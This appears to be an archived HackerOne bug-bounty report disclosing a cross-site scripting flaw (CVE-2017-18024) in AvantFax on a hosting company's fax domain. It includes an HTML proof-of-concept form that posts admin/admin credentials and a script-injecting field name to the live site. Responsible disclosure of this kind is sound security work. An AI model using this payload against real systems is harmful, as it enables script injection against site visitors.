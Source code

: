 # XSS on https://fax.pbx.itsendless.org/ (CVE-2017-18024)

## Report Details
- **Report ID**: 963798
- **URL**: https://hackerone.com/reports/963798
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-08-20T20:56:16.071Z
- **Disclosed**: 2020-09-07T17:42:17.853Z

## Reporter
- **Username**: pirneci
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: endless_group

## Vulnerability Information
## Summary:

Hello Endless Hosting,

I found an XSS on https://fax.pbx.itsendless.org/ . This domain running an AvantFax software 3.3.6
However, the exploit of CVE-2017-18024 for version 3.3.3 is working on that version.

Here is the exploit code of CVE-2017-18024

`<html>
   <body>
   <script>history.pushState('', '', '/')</script>
     <form action="https://fax.pbx.itsendless.org/" method="POST">
       <input type="hidden" name="username" value="admin" />
       <input type="hidden" name="password" value="admin" />
       <input type="hidden" name="_submit_check" value="1" />
       <input type="hidden" name="jlbqg<script>alert(1)</script>b7g0x" value="1" />
       <input type="submit" value="Submit request" />
     </form>
   </body>
 </html>`

This code sending a POST request to the server and using a made-up hidden name to exploit the software with an XSS vulnerability.

## Steps To Reproduce:

  1. Please open the avantfax.html and that's all.

## Supporting Material/References:
CVE-2017-18024 Detail 
https://nvd.nist.gov/vuln/detail/CVE-2017-18024#vulnCurrentDescriptionTitle

## Impact

{F957416}

An attacker might be able to inject arbitrary html and script code into the web site. This would alter the appearance and would make it possible to initiate further attacks against site visitors.

## Attachments
- xss1.png
- avantfax.html
